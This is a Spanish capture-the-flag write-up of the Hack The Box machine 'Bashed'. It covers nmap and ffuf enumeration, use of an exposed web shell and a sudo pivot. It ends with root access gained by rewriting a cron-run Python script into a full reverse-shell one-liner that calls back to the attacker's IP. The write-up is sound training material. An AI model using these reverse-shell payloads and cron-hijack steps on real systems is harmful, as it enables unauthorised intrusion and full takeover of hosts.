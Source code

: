 ```yaml
---
layout: default
title: Bashed
---
```

# ENUMERACIÓN

Confirmamos con el comando ping si tenemos conexión con la máquina, mandando a esta peticiones ICMP echo.

```bash
$ ping -c 1 10.129.58.114
PING 10.129.58.114 (10.129.58.114) 56(84) bytes of data.
64 bytes from 10.129.58.114: icmp_seq=1 ttl=63 time=7.72 ms

--- 10.129.58.114 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 7.716/7.716/7.716/0.000 ms
```

Vemos que recibimos un paquete, lo que significa que sí tenemos conexión con la máquina, procedemos a buscar puertos que tiene abiertos:

```bash
$ nmap 10.129.58.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:29 CDT
Nmap scan report for 10.129.58.114
Host is up (0.011s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```

Vemos que tiene el puerto 80 (http) abierto, vamos a tratar de sacar la versión con un segundo escaneo exclusivamente a ese puerto:

```bash
$ nmap -sCV -p80 10.129.58.114
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:30 CDT
Nmap scan report for 10.129.58.114
Host is up (0.0084s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```

Vemos gracias al título de la web que parece ser un sitio en desarrollo por el usuario **Arrexel**, vamos a echar un vistazo a la web:

![bashed]({{ "/assets/images/bashed1.png"}})

Si pulsamos en la flecha nos redirige a una página con capturas de pantalla y demuestra y avisa que ha probado su herramienta en la web, la cual es una web shell semi-interactiva:

![bashed]({{ "/assets/images/bashed2.png"}})

Según las capturas lo encontraríamos en el directorio **uploads**, no obstante, ahí no encontramos el web shell, entonces, vamos a hacer fuzzing de directorios con herramientas como **fuff**:

```bash
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.58.114/FUZZ

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 7ms]
php                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 7ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 8ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 804ms]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 7ms]
```
Vemos que encontramos el directorio dev, entre otros, al cual si navegamos encontramos lo siguiente:

![bashed]({{ "/assets/images/bashed3.png"}})

Si nos metemos a alguno de ambos, vemos que tenemos la shell semi interactiva que śe testeó en el servidor:

![bashed]({{ "/assets/images/bashed4.png"}})

Vamos a mandarnos una reverse shell con Python, el cual está instalado en el servidor, así podemos conseguir una shell más interactiva
, tenemos antes que iniciar un oyente en nuestra máquina atacante:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```

Tras eso ejecutamos la reverse shell en la web shell semi-interactiva que encontramos en el servidor:

![bashed]({{ "/assets/images/bashed5.png"}})

Y una vez ejecutado deberíamos tener la shell en nuestra máquina:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.210] from (UNKNOWN) [10.129.58.114] 50652
$ whoami
whoami
www-data
```

Efectivamente, tenemos la reverse shell, aunque la haremos más interactiva con los siguientes comandos:

```bash
$ stty raw -echo;fg
```

Esto lo ejecutamos en nuestra máquina atacante, tras eso, en el servidor ejecutamos los siguientes:

```bash
$ export TERM=xterm
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Ya deberíamos tener una shell interactiva.

Si listamos los directorios que existen en **/home** encontramos el de Arrexel y el de scriptmanager:

```bash
www-data@bashed:/var/www/html/dev$ ls /home
arrexel  scriptmanager
```

Si listamos el contenido de **/home/arrexel** encontramos la user flag, la cual podemos leer con los permisos que tenemos:

```bash
www-data@bashed:/var/www/html/dev$ cd /home/arrexel/
www-data@bashed:/home/arrexel$ ls
user.txt
www-data@bashed:/home/arrexel$ cat user.txt
```
## Escalada de privilegios

Ahora, buscaremos la forma de escalar privilegios, primero viendo nuestros permisos como sudo con **sudo -l**:

```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Como podemos ver podemos ejecutar sin necesidad de contraseña cualquier cosa como el usuario **scriptmanager** o su grupo, por lo tanto vamos a suplantarle:

```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
```

Como podemos ver somos el usuario **scriptmanager**, ahora debemos intentar escalar a root.

En **/scripts**, que es un directorio creado por alguien, no es predeterminado del sistema, encontramos 2 ficheros:

```bash
scriptmanager@bashed:~$ ls -l /scripts/ 
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 244 Jun  4 09:23 test.py
-rw-r--r-- 1 root          root           21 Jun  4 09:16 test.txt
```

El de python tenemos capacidad de escritura, ya que somos el propietario, en el txt, solo de lectura, pero es del usuario root.

```bash
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$
```

Como podemos ver, el script que tenemos permiso de escritura parece abrir y escribir en el archivo de texto, en el cual solo tiene permisos de escritura por el usuario root, y si modificamos el texto que queremos que se escriba en el script, se cambia en el fichero test.txt como al minuto mas o menos, podríamos ver cada cuanto se ejecuta con herramientas como **pspy**, no obstante, ya sabemos que es una cron que se ejecuta como root, así que modificamos el script para que nos envíe una reverse shell a un puerto que pondremos a escucha en nuestra máquina atacante.

El script modificado luce así:

```bash
scriptmanager@bashed:/scripts$ cat test.py
import os
os.system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.210",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'')
```

Nos envía una reverse shell al puerto 4444 que tendremos a escucha, si se ejecuta eventualmente como root como tenemos pensado, deberíamos de obtener la reverse shell como usuario root:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.210] from (UNKNOWN) [10.129.189.48] 37778
# whoami
whoami
root
# ls /root	
ls /root
root.txt
```

Efectivamente, recibimos la reverse shell como root y podemos ver la root flag en **/root**!

